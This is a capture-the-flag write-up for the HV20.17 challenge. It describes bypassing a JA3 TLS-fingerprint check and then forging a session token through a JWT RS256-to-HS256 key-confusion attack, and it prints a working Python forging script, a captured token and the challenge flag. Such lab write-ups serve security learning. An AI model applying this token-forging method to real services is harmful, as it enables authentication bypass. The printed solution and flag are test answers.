 # HV20.17 Santa's Gift Factory Control

For this challenge, we get a link to a [website](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/) that is protected using a [JA3 signature](https://github.com/salesforce/ja3). We also know that the signature has to match `771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0` for us to be able to access the site. As this signature is derived from a couple of system / browser parameters (supported ciphers, TLS versions, ...), it is not straightforward to fake it but after googling for a bit, I found a useful [tool](https://github.com/CUCyber/ja3transport) written in go that allows us to bypass the protection.

By using this tool, I was able to access the content of the site, but instead of a flag I got presented with another login form:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>Santa's Control Panel</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link
      href="static/bootstrap/bootstrap.min.css"
      rel="stylesheet"
      media="screen"
    />
    <link
      href="static/fontawesome/css/all.min.css"
      rel="stylesheet"
      media="screen"
    />
    <link href="static/style.css" rel="stylesheet" media="screen" />
  </head>
  <body>
    <div class="login">
      <h1>Login</h1>
      <form action="/login" method="post">
        <label for="username">
          <i class="fas fa-user"></i>
        </label>
        <input
          type="text"
          name="username"
          placeholder="Username"
          id="username"
        />
        <label for="password">
          <i class="fas fa-lock"></i>
        </label>
        <input
          type="password"
          name="password"
          placeholder="Password"
          id="password"
        />

        <input type="submit" value="Login" />
      </form>
    </div>
  </body>
</html>
```

As we don't know any credentials, I adapted my script to try some obvious combinations, as well as SQL Injection attacks. Nothing of them really worked, but when using `admin` as the username I got back a different response including an obscure HTML comment (`<!--DevNotice: User santa seems broken. Temporarily use santa1337.-->`) and a session cookie with a JWT (`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii9rZXlzLzFkMjFhOWY5NDUifQ.eyJleHAiOjE2MDgyMjEyMzAsImlhdCI6MTYwODIxNzYzMCwic3ViIjoibm9uZSJ9.PgZN4Lj52AwevSMKPWeTWFwe3QsGtm-oNp-UR0mGZRtrg59Kul9YoK_-Ufm6DcGIS_6mHQ-GXvl-UXdVxFca2u_yAqhL9FdUJhu-DXZ7RrWkTkoQ_45OJMREuWbbGOaMZ7AwzsGl49B7e4TkmL57J0Vtye32tRLmhpD-dEsQocAG--Bafv10z3ZuprXfjNJWTrghknxEPqZ-fEOdpVDQybev_31F9qHz7SrJxAzyFrbjEtbN4FBF3zEuaqqmHwim2g0XuZh_kHJ3prDB2FySfwmKusL4LiIYQKZ-oHWTQR9_cFPoeKURH82Huvk6jODbTqO-KP4MDEPEkLf8lZyZSA`).

This seems like an important hint. Firstly, we found out that the username should be `santa1337`. Moreover, we learned that the site is using JWT based authentication, which brings along a couple of new attack vectors. My first guess was an attack where we could change the `alg` attribute in the JWT header to `none` and strip the signature. Using this approach, we could force a JWT with the `sub` attribute set to `santa1337` and bypass the login, but unfortunately it did not work.

After a while, I remembered another type of attack where we could trick serveers by changing the JWT type from an assymtric RSA signature (`RS256`) to a symmetric one (`HS256`) and sign the forced JWT with the public key of the server. If the application is vulnerable, it would verify the signature using it's private key and accept the forged token. Thankfully, we have access to the public key of the server, as it's path was specified in the JWT we already have (`/keys/1d21a9f945`). Using this path and our go program, we can download the [public key](./public_key.pem).

Now we have everything we need to create a forged JWT token that uses the `HS256` algorithm and gets signed with the public key from the application. For this purpose, I wrote another small [python script](./forge-jwt.py) (of course we need to make sure that the token is not expired before running the script):

```python
#!/usr/bin/env python3
import jwt

public = open('public_key.pem', 'r').read()
token = jwt.encode({
    "exp": 1608218097,
    "iat": 1608214497,
    "sub": "santa1337"
    }, key=public, algorithm='HS256', headers={'kid': '/keys/1d21a9f945'}).decode('ascii')

print(token)
```

Now we can take the ouput of this script and try to send it as the `session` cookie from within our go program. Using this approach, I was able to bypass both protection mechanisms and access Santas secret control panel, where I could get the flag (hidden inside an HTML comment):

```bash
➜  17 git:(main) ✗ go run crack.go $(./forge-jwt.py) | grep HV20
<!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
```

**Flag:** HV20{ja3_h45h_1mp3r50n4710n_15_fun}
